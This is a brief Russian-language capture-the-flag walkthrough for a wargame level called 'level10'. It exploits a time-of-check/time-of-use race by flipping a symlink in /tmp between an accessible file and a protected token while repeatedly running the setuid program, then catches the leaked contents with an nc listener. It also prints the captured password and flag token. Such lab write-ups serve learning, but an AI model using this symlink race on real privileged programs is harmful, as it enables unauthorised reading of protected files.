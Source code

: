 В папке у нас два файла. Токен и приложение level10

К Токену у нас нет доступа.

level10 требует два параметра, файл для отправки и адрес отправки.
При декомпиляции выяснилось что программа отправляет данные на порт 6969.
Так же, очевидно что данные отправлять нам нужно на локалхост (127.0.0.1), т.к. в локальной сети больше ничего у нас нет.
Как мы видим, у level10 и token есть права на чтение/запись для user flag10 
Мы попытаемся получить доступ к level10, но вместо этого откроем token
Для этого мы создадим символьную ссылку, которая будет циклически переключаться между level10 и token

while true; 
do ln -fs ~/level10 /tmp/aaa; 
ln -fs ~/token /tmp/aaa; 
done

Затем мы будем бесконечно вызывать ./level10

while true; 
do ./level10 /tmp/aaa 127.0.0.1; 
done

Начинаем слушать порт 6969

nc -lk 6969
...
...
...
...
PROFIT!

Среди кучи мусорных данных находим ключ!

.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.

su flag10
getflag

Check flag.Here is your token : feulo4b72j7edeahuete3no7c




